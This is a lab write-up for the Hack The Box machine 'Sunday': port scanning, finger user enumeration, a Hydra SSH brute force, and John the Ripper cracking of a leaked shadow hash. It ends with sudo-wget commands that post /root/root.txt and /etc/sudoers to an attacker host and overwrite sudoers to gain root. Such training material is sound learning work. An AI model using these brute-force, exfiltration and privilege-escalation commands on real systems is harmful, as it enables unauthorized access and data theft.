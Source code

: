 # Sunday HTB, IP address:10.10.10.76

# Initial Enumeration

*1.nmap -sC -sV 10.10.10.76*


*2. ./nmapAutomator.sh 10.10.10.76 Full*


Nmap full port scan: nmap -p- -oA full-noscripts 10.10.10.76  --max-retries 0
79/tcp    open  finger
111/tcp   open  rpcbind
22022/tcp open  unknown
55029/tcp open  unknown

Running a specific port scan:
nmap -p 79,111,22022,55029 -sV -oA full-scripts 10.10.10.7

Results:
Port 22022: is running SunSSH 1.3
Port 55029: is running a service that nmap was not able to identify

------------------------------------------------------------------------------------------------------------------------
#Port Enumeration

1.Enumerating finger service
   Finger is a program you can use to find information about computer users. It usually lists the login name, the full name, and possibly other details about the user you are fingering. These details may include the office location and phone number (if known), login time, idle time, time mail was last read, and the user's plan and project files.

finger @10.10.10.76


perl finger-user-enum.pl -U user.txt -t 10.10.10.76
                                                     


2. Port 22
Connecting on port 22
From the nmap automator script we found out that SSH service is running on port 22.

ssh sunny@10.10.10.76 -p 22022
  Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1

  Notes:
  This particular error happens while the encrypted channel is being set up. If your system and the remote system don't share at least one cipher, there is no cipher to agree on and no encrypted channel is possible. Usually SSH servers will offer a small handful of different ciphers in order to cater to different clients

ssh sunny@10.10.10.76 -p 22022 -oKexAlgorithms=diffie-hellman-group1-sha1
OR
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -c 3des-cbc sunny@10.10.10.76

I will brute force with several wordlists

HYDRA
hydra -V -I -l sunny -P ‘/usr/share/wordlists/rockyou.txt’ 10.10.10.76 ssh -s 22022




 Finally “sunday” seems to be the password.

#LATERAL MOVEMENT SUNNY → SAMMY
ssh sunny@10.10.10.76
I found a backup file in the following directory. 
It contains two files agen22.backup and shadow.backup. The former we don’t have access to, however, we can view the latter.



copy sammy's hash password to a hash.txt file
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::

JOHN THE RIPPER

john --wordlist=/usr/share/wordlists/rockyou.txt sammy-hash.txt 


------------------------------------------------------------------------------------------------------------------------------------------------------------
#Privilege Escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sammy@sunday:~$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


A) GTFOBins wget

First attempt: Gaining a nc shell on attacker machine
 We can use the wget –post-file parameter to post the contents of root.txt. Let’s see if that works. We spin up a Netcat listener on port 80 on our attacker machine
 sudo wget –post-file=/root/root.txt attacker machine



We can capture the flag that way, but let’s do something else with these elevated privileges to get a root shell on the box.
B) Change sudoers file permissions and make sammy's rights ALL
 
 What if we post the /etc/sudoers file and make Sammy or Sunny execute anything as root? Let’s first see the contents of /etc/sudoers. 
<<sudo wget –post-file=/etc/sudoers <attacker machine ip>>>


Copying the contents of /etc/sudoers into sudoers and changing the permissions of Sammy to ALL=(root) NOPASSWD: ALL as shown below.
Collecting this file and installing it as /etc/sudoers, since wget is running as root effectively.
sudo wget -O /etc/sudoers http://<attcker_ip:8000/sudoers
Now we can see that with just one command, Sammy becomes root and take complete control of the box.


*Disclaimer: I did not do the Privilege Escalation part because of SSH LAG.*

 
